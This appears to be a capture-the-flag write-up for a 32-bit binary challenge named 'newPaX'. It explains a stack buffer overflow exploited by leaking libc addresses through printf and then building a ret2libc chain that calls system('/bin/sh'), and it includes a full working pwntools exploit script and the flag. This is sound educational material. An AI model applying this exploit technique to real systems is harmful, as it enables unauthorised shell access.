


# newPaX

> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.
>
> nc pwn.darkarmy.xyz 5001

Thie corresponding 32-bit binary is provided.

## Description

By dissassembling it with Ghidra, we obtain the following vulnerable function:

```c
void vuln(void)
{
  undefined local_34 [44];
  
  read(0,local_34,200);
  return;
}
```

We have a nice buffer overflow available for us. Let's quickly check the security:



NX enabled, so we cannot provide our own shellcode. However there is no canary (so we can directly jump where we want to) and no PIE will just make our exploit easier. 

A quick check with ROPgadget tells us there is not enough code in the binary to create a ROP chain. Therefore we'll resort to a **ret2lib** attack.

## Exploitation

The idea of the ret2lib attack is to create a ROP chain using library code. However, ASLR prevents us from knowing directly where to jump, so we first need to detect the library position. As no library is provided, we also need to know which one is used.

### Jump where we want

The first thing we need is to find the offset before we can put our jump address. I do this quite manually, using gdb.

Python script's relevant portion:

```python
sh.sendline('a'*44 + '111122223333444455556666')
sh.interactive()
```



Therefore we know the jump address is to be placed instead of `3333`. We define `OFFSET = b'a'*52`.

### Disclose addresses of functions

Next, we want to disclose the address of libc functions when loaded. This will allow us to find the library used in the first time, and then to call system in the second time.

Here we are on a 32-bit system with parameters pushed on the stack, so we can put the addresses we want directly on the stack. Otherwise we would have to use a `POP RDI` gadget.

The exploit works as follow:
- put the PLT address of the function we want to get on the stack
- jump to printf function
- jump back to vuln to try again.

```python
elf = ELF(local_bin)

libc = ""
PRINTF_PLT = elf.plt['printf']
VULN_PLT = elf.symbols['vuln']

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p32(PRINTF_PLT) + p32(VULN_PLT) + p32(FUNC_GOT)
    sh.sendline(payload)
    
    recv = sh.read(4)
    leak = unpack(recv)
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("printf")
```

### Which libc?

With the above function, we can disclose the addresses of functions. Using the [libc search database](https://libc.blukat.me/), we can find the correct version of the library used and download it. In our case:

```python
libc = ELF("./libc6-i386_2.27-3ubuntu1.2_amd64.so")
```

### Final exploitation

Now that we know which lib is used, we can open our shell. The idea: put the `/bin/sh` string on the stack, then call `system`.

```python
BINSH = next(libc.search("/bin/sh".encode()))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

payload = OFFSET + p32(SYSTEM) + p32(EXIT) + p32(BINSH)

sh.sendline(payload)
sh.interactive()
```

Flag: `darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}`

## Full script

```python
from pwn import *

LOCAL = True
local_bin = './newPaX'
GDB = True

elf = ELF(local_bin)
rop = ROP(elf)

if LOCAL:
    s = ssh(host="2019shell1.picoctf.com", user="RugessNome")
    if GDB:
        sh = s.run("gdb " + local_bin, True)
        print(sh.recvuntil("(gdb)").decode())
        sh.sendline("b exit")
        print(sh.recvuntil("(gdb)").decode())
        sh.sendline("r")
        print(sh.recvuntil("PaX").decode())
        
    else:
        sh = s.run(local_bin)
    libc = "" # ELF("/lib/x86_64-linux-gnu/libc-2.31.so")
else:
    sh = remote('newpax.darkarmy.xyz', 5001)
    libc = ELF("./libc6-i386_2.27-3ubuntu1.2_amd64.so")

OFFSET = b'a'*52

# gadgets
PRINTF_PLT = elf.plt['printf']
VULN_PLT = elf.symbols['vuln']
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(VULN_PLT))
log.info("Puts plt: " + hex(PRINTF_PLT))

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p32(PRINTF_PLT) + p32(VULN_PLT) + p32(FUNC_GOT)
    sh.sendline(payload)
    
    recv = sh.read(4)
    leak = unpack(recv)
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("printf")

if libc == "":
    exit()

BINSH = next(libc.search("/bin/sh".encode())) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

log.info("puts %s " % hex(libc.sym["puts"]))

payload = OFFSET + p32(SYSTEM) + p32(EXIT) + p32(BINSH)

if LOCAL and GDB:
    print(sh.recvuntil("(gdb)").decode())
    sh.sendline("b system")
    print(sh.recvuntil("(gdb)").decode())
    sh.sendline("c")

sh.sendline(payload)

sh.interactive()
```